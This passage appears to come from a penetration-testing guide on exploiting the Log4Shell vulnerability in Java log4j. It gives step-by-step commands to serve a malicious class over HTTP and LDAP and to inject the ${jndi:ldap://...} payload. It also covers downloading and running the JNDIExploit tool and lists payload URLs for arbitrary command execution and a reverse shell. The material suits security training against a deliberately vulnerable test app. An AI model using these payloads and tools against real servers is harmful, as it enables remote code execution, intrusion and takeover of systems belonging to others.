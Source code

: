 Compile the Java file into a class file using: `javac Exploit.java -source 8 -target 8`. Next, initiate a **HTTP server** in the directory containing the class file with: `python3 -m http.server`. Ensure the **marshalsec LDAP server** references this HTTP server.

Trigger the execution of the exploit class on the susceptible web server by dispatching a payload resembling:

```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```

**Note:** This exploit hinges on Java's configuration to permit remote codebase loading via LDAP. If this is not permissible, consider exploiting a trusted class for arbitrary code execution.


### RCE - **JNDIExploit**

{% hint style="info" %}
Note that for some reason the author removed this project from github after the discovery of log4shell. You can find a cached version in [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) but if you want to respect the decision of the author use a different method to exploit this vuln.

Moreover, you cannot find the source code in wayback machine, so either analyse the source code, or execute the jar knowing that you don't know what you are executing.
{% endhint %}

For this example you can just run this **vulnerable web server to log4shell** in port 8080: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_in the README you will find how to run it_). This vulnerable app is logging with a vulnerable version of log4shell the content of the HTTP request header _X-Api-Version_.

Then, you can download the **JNDIExploit** jar file and execute it with:

```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```

After reading the code just a couple of minutes, in _com.feihong.ldap.LdapServer_ and _com.feihong.ldap.HTTPServer_ you can see how the **LDAP and HTTP servers are created**. The LDAP server will understand what payload need to be served and will redirect the victim to the HTTP server, which will serve the exploit.\
In _com.feihong.ldap.gadgets_ you can find **some specific gadgets** that can be used to excute the desired action (potentially execute arbitrary code). And in _com.feihong.ldap.template_ you can see the different template classes that will **generate the exploits**.

You can see all the available exploits with **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Some useful ones are:

```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
